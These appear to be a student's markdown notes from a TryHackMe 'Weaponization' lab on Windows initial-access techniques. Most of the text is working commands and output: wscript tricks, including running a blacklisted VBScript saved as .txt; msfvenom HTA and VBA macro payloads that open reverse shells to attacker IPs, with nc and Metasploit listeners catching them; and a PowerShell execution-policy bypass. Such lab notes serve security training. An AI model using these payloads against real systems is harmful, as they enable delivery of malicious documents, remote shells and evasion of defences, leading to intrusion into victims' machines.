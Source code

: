 # Weaponization

## Windows Scripting Host (WSH)
It is a Windows native engine, `cscript.exe` (for command-line scripts) and `wscript.exe` (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.   
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
```
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs 
```
Another trick. If the VBS files are blacklisted, then we can rename the file to `.txt` file and run it using `wscript` as follows,
```
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```  

## An HTML Application (HTA)
HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.  
### HTA Reverse Connection
```
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```
```
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```
### Malicious HTA via Metasploit 
```
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

## Visual Basic for Application (VBA)
```
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```
Import to note that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents.  
```
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
```

## PowerShell (PSH)
### Execution Policy
```
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
```
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```
### Bypass Execution Policy
`-ex bypass`
```
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```
